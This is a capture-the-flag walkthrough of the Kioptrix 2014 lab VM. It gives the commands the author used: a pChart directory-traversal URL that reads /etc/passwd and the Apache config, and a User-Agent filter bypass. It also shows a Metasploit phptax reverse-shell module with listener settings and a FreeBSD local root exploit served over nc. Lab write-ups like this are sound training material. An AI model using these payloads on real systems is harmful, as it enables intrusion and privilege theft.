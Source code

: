 # Kioptrix 2014

`tar -xf Kioptrix.tar.bz`
**Note:** I did have some trouble with VMWare Player with this VM. I couldn’t get NAT networking to work right away, so I had to delete and re-add the Network adapter before it would work. Something to keep in mind if you run into trouble.

![](https://i.imgur.com/OyB5KmV.png)
Host is `192.168.227.128`
![](https://i.imgur.com/tkPxdD1.png)
Victim is `192.168.227.129`
`nmap -sS -sV -p- -oN NampKioptrixLv4.txt 192.168.227.129`
![](https://i.imgur.com/ys8IevP.png)
We got only SSH and 2 Web service, SSH in closed, that's weird. Web on 8080 is forbiddened, there might be something that block these.
Let's take a look what Web is.
![](https://i.imgur.com/bJdie07.png)
Nothing.
`dirb` it.
![](https://i.imgur.com/xnA7GJ3.png)
Nope.
How about web in 8080.
![](https://i.imgur.com/n4QU5yO.png)
How about source of the page?
Port: 80
![](https://i.imgur.com/FVjtHke.png)
Port: 8080
![](https://i.imgur.com/dKIbT0P.png)
Something interestin here in port 80 page source: 
```html=
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>
```
`pChart2.1.3` seems a service.
![](https://i.imgur.com/xwioECF.png)

Google it with more infomation, then [it](https://www.exploit-db.com/exploits/31173) show that 
> PHP library pChart 2.1.3 (and possibly previous versions) by default
contains an examples folder, where the application is vulnerable to
Directory Traversal and Cross-Site Scripting (XSS).
Now, we simply modified the leaking info URL with our parameters: `http://192.168.227.129/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`
![](https://i.imgur.com/dAjbDOO.png)
And the LFI lead us got AC/service here.
However, we got bad news here and it explain why SSH is closed and port 8080 is forbiddened.
The OSSEC, which is a Host Intrusion Detection System (HIDS), and it normally comes with some rules that will automatically block any brute force attacks.

Virtual hosts are normally configured in an Apache configuration file. On Linux, the `/etc/apache2/apache2.conf` file and see what was there. However this machine isn’t Linux, it’s FreeBSD. So after a bit of digging, we found that on FreeBSD, the Apache configuration file is located at `/usr/local/etc/apache22/httpd.conf` instead.

Let's LFI the file, `curl "http://192.168.127.141/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf" | html2text`
![](https://i.imgur.com/0PLmFvw.png)
In the end of the file, we saw the virtaul machine setting the only allow the flag in header which specified that `Mozilla4_browser`
Let's use `curl` flag to get the content.
`curl -H "User-Agent:Mozilla/4.0" http://192.168.227.129:8080/`
![](https://i.imgur.com/0abI6i6.png)
Now we see the service on 8080 is PHPTAX, so what's the version? that might be vulnerable.
![](https://i.imgur.com/3PsOOvK.png)
Nope. We need to step back to the raw.
![](https://i.imgur.com/steLYfb.png)
Here we got hte phptax version in the header.
We search the exploit, then we find the PoC.
![](https://i.imgur.com/xQP8Gqa.png)
Then we find there's metasploit module already in the `MS`F.
Turn on the `MSF`.
```shell
msfconsole
use exploit/multi/http/phptax_exe
set payload cmd/unix/reverse
show options
set RHOSTS 192.168.227.129
set RPORT 8080
set LHOST eth0
set LPORT 9001
show advanced
set UserAgent Mozilla/4.0
exploit
```
![](https://i.imgur.com/jqwszKZ.png)
![](https://i.imgur.com/IORnB4c.png)
Exploit it.
![](https://i.imgur.com/b7kPrhE.png)
Now we in.
After identified shell's privilege, first we check the OS verion by `uname -a`
![](https://i.imgur.com/NyxQzEX.png)
Search exploit of `FreeBSD 9.0`
![](https://i.imgur.com/Jv4gbcf.png)
Here we got the POE payload, now we need to transfer the payload to the target and compiling it.
First, we check the local env support:
![](https://i.imgur.com/O1u68Cg.png)
Only `nc` & `gcc` installed, but that's enough.
Let setup a service to offer the payload with `nc -nvlp 8080 < /usr/share/exploitdb/exploits/freebsd/local/28718.c`
![](https://i.imgur.com/scGpJtI.png)
![](https://i.imgur.com/nhhEdyb.png)
Use `md5` to check if the payload actually transfer completely.
![](https://i.imgur.com/Ns25b6s.png)
We got root now.
Go to `/root` to `cat` the congratz text.
![](https://i.imgur.com/8dHnBCi.png)


